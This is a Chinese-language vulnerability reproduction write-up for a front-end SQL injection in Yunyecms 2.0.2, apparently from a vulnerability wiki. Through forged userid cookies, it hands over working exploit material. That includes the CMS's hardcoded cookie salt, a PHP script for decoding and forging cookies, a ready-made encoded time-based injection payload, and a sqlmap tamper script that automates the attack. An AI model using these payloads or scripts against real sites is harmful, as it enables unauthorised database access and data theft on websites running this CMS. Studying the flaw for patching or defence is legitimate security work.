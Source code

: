 Yunyecms V2.0.2 前台注入漏洞（二）
==================================

一、漏洞简介
------------

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

二、漏洞影响
------------

yunyecms 2.0.2

三、复现过程
------------

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId24.png)

经过了加密处理，根据解密算法**yunyecms\_strdecode**可以在corefun.php找到对应的加解密算法

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId25.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId26.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId27.png)

    YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==

payload生成代码front-test.php为：

    <?php
    function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
    }
    function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        $retstr=base64_decode($string);
        $SHA1salt=substr(sha1($salt),0,35);
        $md5salt=substr(md5($salt),8,18);
        $retstr=substr($retstr,strlen($md5salt));
        $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
        return base64_decode($retstr);
    }
    if ($_GET['cookie']) {
        $string=$_GET['cookie'];
        $userid=yunyecms_strdecode($string);
        echo $userid;
    }
    if($_GET['userid']){
        $string=$_GET['userid'];
        $cookie=yunyecms_strencode($string);
        echo $cookie;
    }

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId28.png)

跟入pagelist函数，将\$where拼接到了sql查询语句中\$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId29.png)

详细查看下该函数，直接进行了sql查询。

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId30.png)

附上截

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId31.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![](/Users/aresx/Documents/VulWiki/.resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId32.png)

对应tamper的的脚本为

    yunyecms_front_sqli_tamp.py
    #!/usr/bin/env python

    """
    Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
    See the file 'LICENSE' for copying permission
    """

    import base64
    import hashlib
    from lib.core.enums import PRIORITY
    from lib.core.settings import UNICODE_ENCODING

    __priority__ = PRIORITY.LOW

    def dependencies():
        pass

    def md5(data):
        hash_md5 = hashlib.md5(data)
        md5data=hash_md5.hexdigest()[8:18]
        return md5data
    def sha1(data):
        string_sha1=hashlib.sha1(data).hexdigest()[0:35]
        return string_sha1

    def yunyecms_strencode(string):
        salt='~^y#u%n$y^e*c%m^s^~'
        return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
    def tamper(payload, **kwargs):
        """
        Base64-encodes all characters in a given payload

        >>> tamper("1' AND SLEEP(5)#")
        'MScgQU5EIFNMRUVQKDUpIw=='
        """

        return yunyecms_strencode(payload) if payload else payload
